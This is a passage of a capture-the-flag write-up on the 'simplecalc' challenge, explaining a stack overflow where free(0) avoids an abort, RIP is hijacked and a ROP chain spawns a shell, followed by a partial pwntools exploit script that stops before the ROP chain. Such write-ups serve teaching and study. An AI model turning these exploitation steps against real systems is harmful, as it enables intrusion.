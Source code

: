 the only problem that remains to overcome is the fact that these set of instructions is called before the main function returns

    0x40154a <main+455>:	mov    rax,QWORD PTR [rbp-0x10]
    0x40154e <main+459>:	mov    rdi,rax
    0x401551 <main+462>:	call   0x4156d0 <free>

if we don't have a proper buffer, free() would receive an invalid address and throw an ABORT signal causing our exploitation process to fail.

This can be easily circumvented by manipulating the buffer in such a way that 0 is passed as an argument to free()

In fact free() can accept 0 as arguments, and this simply means the function does nothing. (nice find from superkojiman)

at this point main will return into our buffer and we are in control of RIP.

From here on what remains to do is to build a ROP chain that would spawn a shell.

superkojiman set up a mprotect() + read() ROP chain using the statically linked functions and after some troubles caused by buffer alignment issues he managed to smoothly pop a shell on the system to read the flag

The following is our final exploit.

```python
#!/usr/bin/env python

from pwn import *

context(arch="amd64", os="linux")

def add_align():
    # align address
    r.send("2\n")
    print r.recv()
    r.send("12345678\n")
    print r.recv()
    r.send("12345678\n")
    print r.recv()


#r = remote("localhost", 2323)
r = remote("simplecalc.bostonkey.party", 5400)

print r.recv()
r.send("190\n")
print r.recv()


#x + y = 1094795585 == 0x41414141
x = 85
y = 1094795500

# subtract so when free is called, we get free(0) which is valid
for a in range(0, 14):
    r.send("2\n")
    print r.recv()
    r.send("12345678\n")
    print r.recv()
    r.send("12345678\n")
    print r.recv()

# padding to get to RIP
for a in range(0, 4):
    r.send("1\n")
    print r.recv()
```